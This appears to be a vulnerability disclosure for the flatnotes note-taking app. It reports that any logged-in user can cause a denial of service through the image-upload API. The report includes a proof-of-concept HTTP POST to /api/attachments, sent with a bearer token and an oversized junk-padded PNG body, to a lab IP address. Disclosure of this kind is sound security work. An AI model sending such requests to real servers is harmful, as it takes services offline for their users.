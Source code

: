 ### Description
Anyone who can log in to flatnotes and upload images through the function can cause DOS , which can prevent others from using it, other API interfaces from being accessed, and server DOS attacks

### Impact  
![image](https://github.com/user-attachments/assets/3f75eeb5-c5cd-4570-92b6-3e3b3fdab0f5)


### Proof of Concept 
```
POST /api/attachments HTTP/1.1
Host: 192.168.137.11:8080
Content-Length: 1440589
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzMzMzg1NzA4fQ.GI9swgQd0pDSP0q4mgLc-pMV94xl4KE5_jJNenZChmc
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryN20AMdlOKTaspeAy
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://192.168.137.11:8080
Referer: http://192.168.137.11:8080/new
Accept-Encoding: gzip, deflate, br
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzMzMzg1NzA4fQ.GI9swgQd0pDSP0q4mgLc-pMV94xl4KE5_jJNenZChmc
Connection: keep-alive

------WebKitFormBoundaryN20AMdlOKTaspeAy
Content-Disposition: form-data; name="file"; filename="sword.png"
Content-Type: image/png

PNG
ND®B`
------WebKitFormBoundaryN20AMdlOKTaspeAy--
1234567890123456789012345678901234567890123456712345678901234567890123456789012345678901234567123456789012345678901234567890123456789012345671234567890123456789012345678901234567890123456712345678901234567890123456789012345678901234567123456789012345678901234567890123456789012345671234567890123456789012345678901234567890123456712345678901234567890123456789012345678901234567[attenation:A large amount of useless data]
```
![image](https://github.com/user-attachments/assets/4f958e80-bc72-41f0-bca2-5cb8c9f10a33)



### refer 
[Github project](https://github.com/dullage/flatnotes)
[origin issue](https://github.com/dullage/flatnotes/issues/259)

